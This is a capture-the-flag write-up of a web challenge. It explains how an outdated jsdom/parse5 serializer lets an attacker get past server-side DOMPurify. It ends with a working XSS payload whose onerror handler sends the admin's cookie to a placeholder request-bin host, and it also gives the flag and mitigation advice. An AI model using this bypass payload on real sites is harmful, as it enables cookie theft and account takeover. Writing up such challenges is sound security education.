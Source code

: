 ```yaml
---
title: Air smeller
author: D_K
description: I found this website where you can rate the smell of the air, after purification. Do you know a good purifier, maybe you can recommend some purifier to the people.
categories:
    - Web
year: 2025
challengefiles: air-smeller.zip
published: "2025-05-01"
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** This challenge is about a **DOMPurify** bypass
    **- Key Discoveries:** **DOMPurify** is used server-side
    **- Vulnerability:** The used **JSDOM** library to offer a DOM parser for **DOMPurify** is outdated
    **- Exploitation:** By abusing an implementation but in the old **JSDOM** version, we can bypass **DOMPurify**

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to identify and exploit a bypass in **DOMPurify** to achieve Cross-Site Scripting (XSS) and ultimately steal the admin's cookie. The challenge description already hints at the role of a sanitizer in the exploitation process.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Fortunately, the source code for the website is provided in this challenge. It is a small website built with **Next.js** using **React** and written in **TypeScript**. An admin bot, using **Chromium**, checks the website every 60 seconds and carries the flag in its cookie. Moreover, the attribute `httpOnly: false` allows us to access the cookie via JavaScript, so there is a high probability that this is an XSS challenge.
<span>
On the landing page, where we can submit our ratings, the input is reflected in both input fields:

![landing page](ctf/writeups/cscg/airsmeller/landing_page.png "landing page")

But it seems like there is some kind of sanitizer removing malicious input from the comment field and thus preventing XSS. A closer look at the source code in `src/components/ratings.tsx` reveals that the sanitizer used for filtering malicious comments is **DOMPurify**, a very popular and powerful XSS sanitizer. The sanitized output is then injected into the comment section using **React**'s `dangerouslySetInnerHTML`. It functions similarly to the traditional `innerHTML` in vanilla JavaScript. Thus, the comment input field acts as an HTML injection vector. The reason for this design decision could be to allow users to style their comments in a fancy way with some HTML tags. This means that bypassing **DOMPurify** should be enough to have an XSS.
<span>
In this challenge, **DOMPurify** is used server-side, so it requires a DOM parser. The challenge uses **jsdom** for this purpose and a look at the `package.json` reveals that **DOMPurify** is slightly outdated. Notably, to exploit the mXSS-style bypass, which was patched in the latest version, requires a non-default configuration of **DOMPurify**, enabling the `SAFE_FOR_TEMPLATES` option; we don't have the luxury of this in this challenge.
<span>
More interestingly, the version of **jsdom** v19.0.0 is quite old. Reviewing the [README](https://github.com/cure53/DOMPurify?tab=readme-ov-file\#running-dompurify-on-the-server) of **DOMPurify** confirms that the older version of **jsdom** may introduce vulnerabilities:

```
Running DOMPurify on the server requires a DOM to be present, which is probably no surprise. Usually, jsdom is the tool of choice and we strongly recommend using the latest version of jsdom.

Why? Because older versions of jsdom are known to be buggy in ways that result in XSS even if DOMPurify does everything 100% correctly. There are known attack vectors in, e.g. jsdom v19.0.0 that are fixed in jsdom v20.0.0 - and we really recommend keeping jsdom up to date because of that.
```

# 3. Bypassing DOMPurify - Finding differentials<a id="bypassing DOMPurify - finding differentials"></a>
Bypassing **DOMPurify** is challenging when it is used correctly. Typically, you would use the latest version of **DOMPurify** client-side so that the sanitizer uses the same DOM parser as the browser rendering the website. When using a sanitizer like **DOMPurify**, the untrusted payload is parsed at least two times:
<span>
The first time, by the DOM parser used by **DOMPurify**, and the second time by the DOM parser of the browser, the website is being rendered on. Using the **DOMPurify** client-side avoids parser differentials that originate from **DOMPurify** using a different parser in the backend than the client. Nevertheless, bypassing even the latest version of **DOMPurify** running client-side is not impossible. If you are interested in the whole topic around mutation XSS (mXSS), I can highly recommend [this article](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes).
<span>
As mentioned, the challenge uses **DOMPurify** server-side with an outdated DOM parser **jsdom**. This design decision might be intended to prevent malicious payloads from reaching the server's database, reducing the overhead for clients and ensuring that even a tampered client gets sanitized content. Essentially, the challenge goal is to find bugs in the parser or serializer implementation of **jsdom** and exploit them. With the help of such a bug, we could craft a malicious payload so the **DOMPurify** sanitization process using **jsdom** won't detect it. But when the payload is being rendered in **Chromium** with its underlying **DOMParser**, this will lead to malicious behavior. To find the differential, we have to dive deep into the source code of **jsdom** and its underlying parser and serializer, **parse5**.
<span>
With the outdated **jsdom** version, we review the corresponding [release notes](https://github.com/jsdom/jsdom/releases/tag/20.0.0) and discover several noteworthy fixes introduced in **jsdom** v20.0.0:

```
Updated parse5, bringing along some HTML parsing and serialization fixes. (fb55)
```

This change motivates us to examine the exact [code modifications](https://github.com/jsdom/jsdom/commit/2e355263e5cae2e4647b0956f777c0abd2c62d5b). Aside from updating the underlying HTML parser and serializer **parse5** to v7.0.0, nothing particularly exploitable in **jsdom** itself is immediately apparent. Further investigation into the [release notes](https://github.com/inikulin/parse5/releases/tag/v7.0.0) for **parse5** v7.0.0 reveals a significant [pull request](https://github.com/inikulin/parse5/pull/383) titled:

```
Refactor & improve serializer
```

Moreover, an interesting [issue](https://github.com/inikulin/parse5/issues/333) describes a bug in the HTML serializer where the namespace of any content is not properly checked before decoding and applying it to the corresponding node. For example, given input like:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

**jsdom**'s `innerHTML` serializes it as:

```html
<svg><style><</style></svg>

<style>&lt;</style>
```

whereas **Chromium**'s **DOMParser**, following the HTML specification, serializes it as:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

In short, **jsdom** decodes the opening tag in the SVG namespace, which is not valid per the [HTML specification](https://html.spec.whatwg.org/#serialising-html-fragments). During initialization, **DOMPurify** creates a document with:

```javascript
doc = new DOMParser().parseFromString(dirtyPayload, PARSER_MEDIA_TYPE);
```

The **jsdom** implementation of `parseFromString` uses the **parse5** [parser](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/parser/index.js). Eventually after sanitization, **DOMPurify** calls:

```javascript
let serializedHTML = WHOLE_DOCUMENT ? body.outerHTML : body.innerHTML;
```

This will internally use the **parse5** [serializer](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/serializer/index.js), which has the aforementioned namespace-dependent bug. Thus, the malicious payload is processed in the following stages, each potentially modifying its HTML structure and representation:
<span>
Dirty HTML → **parse5** parser → **DOMPurify** sanitizer → **parse5** serializer → **Chromium** **DOMParser**
<span>
**DOMPurify** assumes that the DOM parser implements the HTML specifications correctly. In this case, it doesn't interpret the `&lt;` as an opening tag, because it relies on the output of the **jsdom** serializer. The serializer treats it as a text node `#text` within the `style` tag, similar to regular content, for example, in a `p` tag. However, after sanitization calling `innerHTML` and thus using the buggy **parse5** serializer, the harmless `&lt;` is decoded as an actual HTML opening tag `<`, causing **DOMPurify** to return a malicious payload with the encoded tag. So effectively, in this challenge **DOMPurify** itself potentially makes harmless inputs harmful.
<span>
There are additional bugs in **parse5** v6.0.0, such as [this one](https://github.com/inikulin/parse5/pull/451), which might also be exploitable in this challenge. The difference from the previously described bug is that this one occurs in the **parse5** parser, whereas the earlier bug was in the **parse5** serializer. According to the HTML specification, the closing tags `</br>` and `</p>` must not be children of `<svg>` or `<math>` elements. If they are placed inside these elements, they are automatically moved outside, effectively closing the `<svg>` or `<math>` tags. For instance, a payload like:

```html
<svg></br><a>
```

will be serialized by **jsdom**'s `innerHTML` as

```html
<svg><span><a></a></svg>
```

while **Chromium**'s **DOMParser** serializes it as:

```html
<svg></svg><span><a></a>
```

It is worth noting that all of this code search in GitHub was not necessary to uncover the parser differentials and even a working payload for the challenge. For more insights into parsing differentials used to bypass HTML sanitizers like **DOMPurify**, I refer to [this research paper](https://www.ias.cs.tu-bs.de/publications/parsing_differentials.pdf).

# 4. Exploitation<a id="exploitation"></a>
The final payload is straightforward once you understood the serializer bug in **parse5**:

```html
<svg><style>&lt;img src onerror='window.location=(`reqest-bin/${document.cookie}`)';><a>
```

By using the encoded opening tag `&lt;`, we can inject an image tag with an `onerror` event past the **DOMPurify** sanitizer. This event triggers a redirect to our webhook, effectively exfiltrating the cookie that contains the flag `CSCG{0ld_A1r_Smeels_B4d}`.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is about using **DOMPurify** with an outdated version of **jsdom** (and consequently an outdated **parse5** version). Updating these dependencies would resolve the issue. So always precisely read the documentation on how to use security-relevant libraries like **DOMPurify**. Additionally, shifting **DOMPurify** from a server-side to a client-side implementation would prevent parser and serializer differentials, as the same DOM parser would be used throughout. Implementing a robust Content Security Policy (CSP) further restricts JavaScript execution, adding another layer of defense against XSS. Morover, try to use `httpOnly` cookies on your website if none of your javascript needs to access cookies. Finally, if not absolutely necessary, avoid using `innerHTML` (or in this case `dangerouslySetInnerHTML`) with untrusted input.

# 6. Flag<a id="flag"></a>
CSCG{0ld_A1r_Smeels_B4d}
